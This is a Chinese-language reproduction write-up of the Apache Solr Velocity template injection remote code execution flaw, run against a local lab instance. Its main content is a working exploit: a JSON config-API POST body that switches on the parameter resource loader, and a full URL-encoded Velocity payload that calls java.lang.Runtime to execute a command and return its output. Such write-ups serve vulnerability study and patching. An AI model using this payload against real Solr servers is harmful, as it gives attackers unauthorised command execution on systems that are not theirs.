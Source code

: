 # Apache Solr Velocity模板注入RCE漏洞复现

## 一、前言

Solr是一个独立的企业级搜索应用服务器,它对外提供类似于web-service的API接口,用户可以通过http请求,向搜索引擎服务器提交一定格式的XML文件,生成索引,也可以通过http get操作提出查找请求,并得到XML格式的返回结果。

## 二、漏洞描述

该漏洞的产生是由于两方面的原因：

当攻击者可以直接访问Solr控制台时，可以通过发送类似/节点名/config的POST请求对该节点的配置文件做更改。

Apache Solr默认集成VelocityResponseWriter插件，在该插件的初始化参数中的params.resource.loader.enabled这个选项是用来控制是否允许参数资源加载器在Solr请求参数中指定模版，默认设置是false。
当设置params.resource.loader.enabled为true时，将允许用户通过设置请求中的参数来指定相关资源的加载，这也就意味着攻击者可以通过构造一个具有威胁的攻击请求，在服务器上进行命令执行。（来自360CERT）

## 三、影响范围

Apache Solr 5.x - 8.2.0，存在config API版本

四、环境搭建

下载地址

https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/

解压压缩包，启动solr

![1573479758591](image\1573479758591.png)

访问http://127.0.0.1:8983/solr/#/~cores/new_core，添加new_core

![](image\1573479895996.png)

## 四、漏洞复现

获取core名称

访问http://127.0.0.1:8983/solr/admin/cores?wt=json&indexInfo=false

![1573480278213](image\1573480278213.png)

Apache Solr默认集成VelocityResponseWriter插件，该插件初始化参数中的params.resource.loader.enabled默认值设置为false，但是可以通过POST请求直接修改集合设置，将其设置为true，然后就可以构造特殊的GET请求来实现远程代码执行。

![1573482066083](\image\1573482066083.png)

post以下数据，返回200响应码

        {
            "update-queryresponsewriter": {
            "startup": "lazy",
            "name": "velocity",
            "class": "solr.VelocityResponseWriter",
            "template.base.dir": "",
            "solr.resource.loader.enabled": "true",
            "params.resource.loader.enabled": "true"
            }
        }
![1573482566107](image\1573482566107.png)

构造paloayer实现rce:

[http://127.0.0.1:8983/solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%22id%22))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()\])$str.valueOf($chr.toChars($out.read()))%23end](http://127.0.0.1:8983/solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x='')+%23set($rt=$x.class.forName('java.lang.Runtime'))+%23set($chr=$x.class.forName('java.lang.Character'))+%23set($str=$x.class.forName('java.lang.String'))+%23set($ex=$rt.getRuntime().exec("id"))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end)

![1573482681109](image\1573482681109.png)